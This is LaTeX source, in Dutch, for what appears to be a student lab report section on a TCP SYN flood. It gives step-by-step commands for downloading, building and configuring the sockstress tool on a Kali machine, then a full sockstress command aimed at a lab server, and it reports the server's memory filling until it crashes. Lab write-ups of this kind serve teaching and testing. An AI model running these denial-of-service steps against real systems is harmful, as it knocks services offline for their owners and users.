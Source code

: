 \documentclass[pdftex,a4paper,12pt]{report}
\begin{document}
\section{TCP SYN flood}
In deze aanval gaat Sockstress gebruikt worden, dit is één tool die kan gebruikt worden om een TCP SYN flood aanval uit te voeren. Allereerst moet er terug een port scan uitgevoerd worden om te kijken welke poorten er open zijn. Dit zal dezelfde uitvoer hebben als figuur~\ref{img:PortScan}. Alle poorten die hier zichtbaar zijn worden best even ergens genoteerd omdat deze later nog gebruikt zullen worden. Om deze aanval uit te voeren via de Kali Aanvaller-machine moet sockstress eerst gedownload worden aangezien dit niet standaard op Kali Linux staat. Dit wordt gedaan door de volgende lijnen code:
\begin{verbatim} apt-get update \end{verbatim}
\begin{verbatim} apt-get install libpcap0.8 libssl-dev -y \end{verbatim}
\begin{verbatim} wget http://samsclass.info/123/proj10/sockstress-outpost24.tar.gz \end{verbatim}
Indien dit commando niet werkt kan er gegaan worden naar \url{https://defuse.ca/sockstress.htm} waar sockstress ook kan gedownload worden.
\begin{verbatim} tar xzf sockstress-outpost24.tar.gz \end{verbatim}
\begin{verbatim} cd sockstress \end{verbatim}
\begin{verbatim} ./configure \end{verbatim}
\begin{verbatim} nano config.h \end{verbatim}
Met dat laatste lijntje wordt er in het configuratiebestand gegaan en daar moet \textit{\#include <pcap.h>} aangepast worden naar \textit{\#include </usr/include/pcap.h>}. Nu dit is aangepast kan de effectieve aanval worden uitgevoerd. Dit wordt gedaan met volgende lijn code:
\begin{verbatim} ./sockstress -A -c -1 -d 192.168.1.3 -m -1 -Ms -p 23,80,135,445,
1801,2103,2105,2107,49154,49176 -r 100000 -s 192.168.2.0/24 -vv
 \end{verbatim}
Nu kan er naar de webserver gegaan worden om in het taakbeheer te kijken naar de prestaties van het geheugen om te kijken of de aanval is geslaagd. In figuur~\ref{img:SockVoor} is het geheugen te zien voor de aanval en in figuur~\ref{img:SockNa} het geheugen na de aanval. Het geheugen is helemaal volgelopen en er kan niets meer gebeuren op de server, deze moet nu handmatig worden afgesloten.
\end{document}

